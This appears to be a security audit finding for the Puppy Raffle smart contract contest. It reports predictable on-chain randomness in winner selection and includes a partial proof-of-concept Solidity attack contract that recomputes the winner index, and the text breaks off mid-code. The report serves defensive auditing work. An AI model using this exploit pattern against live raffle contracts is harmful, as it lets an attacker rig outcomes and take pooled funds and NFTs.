 [printfjoby](/profile/clo5mosul0022ju08x9xxkh0c), [0xhashiman](/profile/clofddxp4001ijz08hm9txokv), [0xth30r3m](/profile/clk5x4c14000cl608o3dwdsjh), [codyx](/profile/clo15yq5l0000ml08qecr06jr), [Leogold](/profile/cll3x4wjp0000jv08bizzorhg), [Louis](/profile/clloixi3x0000la08i46r5hc8), [Davide](/profile/clndp4ggs0000mf082wp5l22p), [0x0bserver](/profile/clo5ejc7k0000k108dnby2kir). Selected submission by: [efecarranza](/profile/clnu83dx3000jl1088pfm1okk)._      
				
### Relevant GitHub Links
	
https://github.com/Cyfrin/2023-10-Puppy-Raffle/blob/main/src/PuppyRaffle.sol#L128

## Summary

The randomness to select a winner can be gamed and an attacker can be chosen as winner without random element.

## Vulnerability Details

Because all the variables to get a random winner on the contract are blockchain variables and are known, a malicious actor can use a smart contract to game the system and receive all funds and the NFT.

## Impact

Critical

## Tools Used

Foundry

## POC

```
// SPDX-License-Identifier: No-License

pragma solidity 0.7.6;

interface IPuppyRaffle {
    function enterRaffle(address[] memory newPlayers) external payable;

    function getPlayersLength() external view returns (uint256);

    function selectWinner() external;
}

contract Attack {
    IPuppyRaffle raffle;

    constructor(address puppy) {
        raffle = IPuppyRaffle(puppy);
    }

    function attackRandomness() public {
        uint256 playersLength = raffle.getPlayersLength();

        uint256 winnerIndex;
        uint256 toAdd = playersLength;
        while (true) {
            winnerIndex =
                uint256(
                    keccak256(
                        abi.encodePacked(
                            address(this),
                            block.timestamp,
```